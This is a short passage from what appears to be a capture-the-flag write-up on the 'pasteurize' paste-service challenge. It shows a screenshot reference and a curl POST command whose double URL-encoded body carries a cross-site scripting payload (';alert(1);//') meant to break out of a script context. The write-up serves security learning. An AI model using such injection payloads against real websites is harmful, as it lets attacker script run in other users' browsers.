 ![view-post-qs-copy-curl](./images/view-post-qs-copy-curl.png)

```bash
curl -X POST 'https://pasteurize.web.ctfcompetition.com/' \
  -H 'content-type: application/x-www-form-urlencoded' \
  --data-raw 'content=0%3D%253Balert%25281%2529%253B%252F%252F'
```
